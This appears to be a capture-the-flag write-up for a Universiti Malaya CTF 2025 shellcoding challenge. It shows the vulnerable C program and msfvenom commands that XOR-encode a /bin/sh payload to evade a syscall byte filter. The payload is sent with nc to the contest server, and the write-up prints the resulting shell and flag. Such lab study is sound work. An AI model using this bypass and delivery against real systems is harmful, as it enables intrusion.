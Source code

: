 ```yaml
---
title: "Universiti Malaya CTF 2025"
date: 2025-04-13 
categories: [Binary Exploitation]
tags: [CTF]
image:
  path: /assets/img/Umcs.jpeg
description: Walkthrough of UM CTF 2025 binary exploitation challenge.


---
```


## 💥 BINARY EXPLOITATION
<br>

## Hint: 🔍🧬Shellcode 

```


#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

void *shellcode;
size_t shellcode_size;

void vuln() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);

    puts("Enter 0x1000:");
    shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++) {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
}

int main() {
    vuln();
    return 0;
}
```
## 🔎 INITIAL OBSERVATION

```
  shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);
```
**This memory setup can be write down instructions and immediately carry them out. The**
**PROT_READ|PROT_WRITE|PROT_EXEC flags together mean this memory can be read from, written to, and run as code.**
```
  if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
```
**This segment of code showing its banning direct system calls like ,syscalls,sysenter and int0x80 a traditional way to make system calls on 32 bit linux.**

```
 puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
```
**If 0x80cd,0x340f,0x050f was called it will showing  bad byte and if no bad byte not appear it** 
**will execute the shellcode.**

---

## 🧨EXPLOITATION ANALYSIS 
```
(luna@faris)-[~/um]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw > babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 44 bytes
```
**Im just gonna use the msfvenom on this part.**
```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Bad Byte at 42!
```
```
(luna@faris)-[~/um]
└─$ hexdump -C babysc.bin
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 52 e8 08 00  00 00 2f 62 69 6e 2f  |h-cTR...../bin/|
00000020  73 68 00 56 57 54 5e 6a  3b 58 0f 05           |sh.VWT^j;X..|
0000002c
```
**I been wondering why its saying bad byte on this and decide to use hexdump on this part and its obviously im** 
**calling direct syscalls on /bin/sh so i decide to use xor encoder to encode the shellcode.** 




```
(luna@faris)-[~/Downloads]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw -e x64/xor -o babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Saved as: babysc.bin

(luna@faris)-[~/Downloads]
└─$ hexdump -C babysc.bin
00000000  48 b1 c9 9e 48 81 e9 fa  ff ff ff 48 8d 05 ef ff  |H..H.......H....|
00000010  ff ff bb ef c8 f9 b6 62  b2 97 50 48 31 58 27 48  |....b..b.PH1X'H|
00000020  2d f8 ff ff ff e2 f4 a7  70 d6 d4 0b dc b8 23 87  |-...........p...#.|
00000030  c0 e0 6e 36 ed c5 36 87  e5 9a e2 3c e0 7f 58 ef  |..n6..6......<.X.|
00000040  c8 f9 99 00 db f9 7f 9c  a0 f9 e0 35 e6 c9 3a d4  |............5..:.|
00000050  90 f6 b3 62 b2 97 50                          |...b..P|
00000057
```

**Nice! We can see that its no longer using direct syscalls.**

## 🎉 Result

```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!

ls
babysc
flag.txt
limauaiakosong
supgais
```
```
Flag:umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```














